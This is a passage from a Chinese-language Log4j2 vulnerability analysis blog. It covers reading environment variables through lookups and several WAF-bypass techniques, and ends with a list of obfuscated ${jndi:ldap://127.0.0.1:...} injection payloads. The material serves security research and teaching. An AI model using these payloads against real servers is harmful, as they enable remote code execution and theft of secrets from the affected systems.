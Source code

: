 ### 奇淫技巧  
主要是读取敏感信息，GoogleCTF2022 的 log4j2 的题目中，有一种非预期的方式就是通过这种方式打的  
刚才分析了其他解析器功效，通过`sys`和`env`协议，结合`jndi`可以读取到一些环境变量和系统变量，特定情况下可能可以读取到系统密码  
## 0x05 针对WAF的绕过  
### 1、利用分隔符和多个`${}`绕过  
`logg.info(&#34;${${::-J}ndi:ldap://127.0.0.1:1389/Calc}&#34;);`  
### 2、通过lower和upper绕过  
这一点，因为我们之前说允许的字段是这一些    
`date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`，其中就有 lower 和 upper  
  
同时也可以利用 lower 和 upper 来进行 bypass 关键字  
```  
logg.info(&#34;${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}&#34;);  
logg.info(&#34;${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}&#34;);  
....  
```  
### 3、总结一些payload  
```  
${${a:-j}ndi:ldap://127.0.0.1:1234/ExportObject};  
    
${${a:-j}n${::-d}i:ldap://127.0.0.1:1234/ExportObject}&#34;;  
    
${${lower:jn}di:ldap://127.0.0.1:1234/ExportObject}&#34;;  
    
${${lower:${upper:jn}}di:ldap://127.0.0.1:1234/ExportObject}&#34;;  
    
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1234/ExportObject}&#34;;  
```  
  
## Reference  
https://wjlshare.com/archives/1677  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/log4j2%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/  

